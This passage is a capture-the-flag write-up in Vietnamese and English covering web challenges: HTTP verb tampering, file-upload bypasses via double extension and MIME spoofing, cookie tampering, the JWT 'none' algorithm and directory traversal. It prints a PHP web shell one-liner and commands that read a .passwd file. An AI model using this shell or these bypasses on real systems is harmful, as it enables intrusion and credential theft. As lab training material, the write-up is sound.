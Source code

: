 Ban đầu tưởng bruteforce ngồi xài hydra và cái rockyou.txt ra spam cả tiếng&#x20;

![](<../../.gitbook/assets/image (5) (4).png>)

temper ở đây là chỉ cần đổi method khác ngoài GET và POST là được, cứ PUT với DELETE mà phang

![](<../../.gitbook/assets/image (10) (2).png>)

### 13.File upload - Double extensions

```
<?php echo shell_exec($_GET['cmd']); ?>
```

set file.php.png and send to the server

![](<../../.gitbook/assets/image (16) (3).png>)

```
?cmd=cd;cat .passwd
```

### 14.File upload - MIME type

![](<../../.gitbook/assets/image (19) (3).png>)

Change Content-Type to image/png and rce

```
?id=cd;cat .passwd
```

### 15.HTTP - Cookies

![chan](<../../.gitbook/assets/image (1) (1) (4).png>)

change cookie from `visiteur` to `admin`

### 16.JSON Web Token (JWT) - Introduction

![](<../../.gitbook/assets/image (45).png>)

"none" signature algorithms

### 17.Directory traversal

![](<../../.gitbook/assets/image (7) (3).png>)

Try with ../ and fuzz

### 18.JSON Web Token (JWT) - Weak secret

![](<../../.gitbook/assets/image (46).png>)
